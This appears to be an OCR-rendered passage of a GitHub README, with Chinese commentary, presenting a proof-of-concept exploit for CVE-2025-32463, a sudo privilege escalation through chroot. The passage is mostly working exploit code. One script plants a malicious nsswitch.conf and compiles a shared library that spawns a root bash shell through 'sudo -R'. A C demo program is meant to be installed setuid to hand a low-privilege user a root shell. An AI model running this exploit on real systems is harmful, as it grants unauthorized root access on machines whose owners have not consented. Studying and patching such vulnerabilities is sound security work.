 ```
  chdir(&#34;/&#34;);
  execl(&#34;/bin/bash&#34;, &#34;/bin/bash&#34;, NULL);
}
EOF


mkdir -p woot/etc libnss_
echo &#34;passwd: /woot1337&#34; > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c


echo &#34;woot!&#34;
sudo -R woot woot
rm -rf ${STAGE?}
```

### Chwoot 演示  
  
chwoot-demo.c   
是 Sudo 漏洞的简化版本，旨在复现其核心行为。该概念验证（Proof of Concept, PoC）可用于演示 chroot() 的潜在安全问题。  

```
/*
  Description: Simulate behavior of CVE-2025-32463 - sudo EoP via chroot.
               Possible future CTF challenge? :)
  gcc -Wall -o chwoot-demo chwoot-demo.c
  cp 4755 chwoot-demo
  mv chwoot-demo /usr/bin
  Then get a root shell as a low priv user
*/
#include <fcntl.h>
#include <unistd.h>
#include <sys/types.h>
#include <grp.h>
#include <netdb.h>


int main() {
    chdir(&#34;/tmp/stage&#34;);
    int saved_root = open(&#34;/&#34;,O_RDONLY);
    int saved_cwd = open(&#34;.&#34;,O_RDONLY);
    chroot(&#34;/tmp/stage&#34;);
    chdir(&#34;/&#34;);
    gethostbyname(&#34;woot&#34;);
    fchdir(saved_root);
    chroot(&#34;.&#34;);
    fchdir(saved_cwd);
    getgrnam(&#34;got root?&#34;);
}
```

